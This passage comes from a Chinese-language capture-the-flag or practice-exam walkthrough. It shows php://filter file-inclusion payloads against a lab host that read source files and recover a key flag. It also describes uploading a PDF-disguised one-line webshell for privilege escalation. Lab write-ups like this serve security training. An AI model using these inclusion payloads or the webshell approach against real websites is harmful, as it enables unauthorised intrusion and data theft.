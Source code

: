 访问那个非常规端口http://10.11.0.205:6721![image-20221224183152343](F:/Typora_pic/pte/image-20221224183152343.png)

这个页面要用Chrome访问才能显示完全，不过右键查看源代码一样能看到下一跳**api/query_pdf.php**

![image-20221224183258432](F:/Typora_pic/pte/image-20221224183258432.png)

按照提示传参

![image-20221224183344292](F:/Typora_pic/pte/image-20221224183344292.png)

这个时候回到御剑，御剑里有个扫描出来的phpinfo

![image-20221224183743951](F:/Typora_pic/pte/image-20221224183743951.png)

phpinfo.php的存放目录就在document_root里，那么用伪代码传参的时候就要吧路径带上，加进去试一下

php://filter/read=convert.base64-encode/resource=/usr/share/nginx/PIzABXDg/phpinfo.php

![image-20221224183852144](F:/Typora_pic/pte/image-20221224183852144.png)

解密出来就是 <?php phpinfo(); ?>

那么找一下key文件

archive=php://filter/read=convert.base64-encode/resource=/usr/share/nginx/PIzABXDg/key.php

![image-20221224184005462](F:/Typora_pic/pte/image-20221224184005462.png)

丢进BP里解密一下

```php+HTML
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>KETå¨è¿é</title>
</head>
<body>
	<h1 style="color: red;">KEYå°±å¨è¿é</h1>
</body>
</html>

<?php
// key7:h57xjzsn
?> 
```

**key7:h57xjzsn**

最后一个key是要提权的，这个时候回到挂号查询系统里，找到档案管理，上传一个pdf的一句话

![image-20221224184338894](F:/Typora_pic/pte/image-20221224184338894.png)

可是上传了之后我们并不知道上传的路径是什么，为了知道上传的路径，我们用上边的文件包含把这个上传页面包含解密，审计一下代码
